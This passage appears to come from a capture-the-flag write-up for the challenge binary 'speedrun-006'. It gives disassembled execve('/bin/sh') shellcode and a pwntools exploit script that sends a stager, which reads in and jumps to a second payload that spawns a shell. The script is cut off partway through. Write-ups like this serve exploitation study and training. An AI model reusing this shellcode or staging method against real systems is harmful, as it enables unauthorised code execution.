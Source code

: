 ```
shellcode:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080: b0 3b                 mov    al,0x3b
  400082: 48 8d 3d f8 ff ff ff  lea    rdi,[rip+0xfffffffffffffff8]        # 400081 <_start+0x1>
  400089: 48 b9 2f 62 69 6e 2f  movabs rcx,0x68732f6e69622f
  400090: 73 68 00
  400093: 48 89 0f              mov    QWORD PTR [rdi],rcx
  400096: 48 31 f6              xor    rsi,rsi
  400099: 48 31 d2              xor    rdx,rdx
  40009c: 0f 05                 syscall
```

Putting it all together, we get the following exploit:
```
from pwn import *

target = process('speedrun-006')
gdb.attach(target, gdbscript='pie b *0x9fe')

'''
shellcode to scan in additional shellcode
0000000000400080 <_start>:
  400080:   b2 ff                   mov    dl,0xff
  400082:   48 8d 35 f8 ff ff ff    lea    rsi,[rip+0xfffffffffffffff8]        # 400081 <_start+0x1>
  400089:   48 83 c6 43             add    rsi,0x43
  40008d:   0f 05                   syscall
  40008f:   ff e6                   jmp    rsi
'''

# mov    dl,0xff
scan = "\xb2\xff"

# nops
scan += "\x90\x90\x90\x90\x90\x90\x90"

# lea    rsi,[rip+0xfffffffffffffff8]
scan += "\x48\x8d\x35\xf8\xff\xff\xff"

# nops
scan += "\x90"*2

# add    rsi,0x43
scan += "\x48\x83\xc6\x43"

# syscall
scan += "\x0f\x05"

# jmp rsi
scan += "\xff\xe6"

# send the shellcode, and pause to ensure input is scanned in correctly
target.send(scan)
raw_input()

'''
Secondary shellcode to pop a shell without push/pop
0000000000400080 <_start>:
  400080:   b0 3b                   mov    al,0x3b
  400082:   48 8d 3d f8 ff ff ff    lea    rdi,[rip+0xfffffffffffffff8]        
```